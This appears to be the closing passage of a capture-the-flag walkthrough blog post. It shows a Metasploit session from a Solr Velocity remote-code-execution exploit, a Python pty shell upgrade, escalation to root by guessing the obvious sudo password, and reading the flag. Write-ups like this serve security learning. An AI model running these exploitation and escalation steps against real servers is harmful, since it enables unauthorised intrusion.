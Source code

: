 ```r
                           
msf5 exploit(multi/http/solr_velocity_rce) > sessions -i 1
[*] Starting interaction with 1...
                                                                                                                                                             
id
uid=8983(solr) gid=8983(solr) groups=8983(solr),27(sudo)
python -c 'import pty;pty.spawn("/bin/bash")'
```

We can see that the user is added in the <i>sudoers</i> group, so we can run commands as root but we need the password for the user. After a few guesses, I found the password! and it came out to be the obvious one. (solr)
```r
solr@33fa86e6105f:/opt/solr/server$ cd /
cd /
solr@33fa86e6105f:/$ sudo su
sudo su 
[sudo] password for solr: wJWm4CgV26

Sorry, try again.
[sudo] password for solr: solr

root@33fa86e6105f:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@33fa86e6105f:~# 
```

Now we can read our flag!

```r
root@33fa86e6105f:~# cat flag.txt
cat flag.txt
Good job here our secure cold wallet flag{s4t0sh1n4k4m0t0}
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/benbely" rel=”nofollow”>Ben Bely.</a>
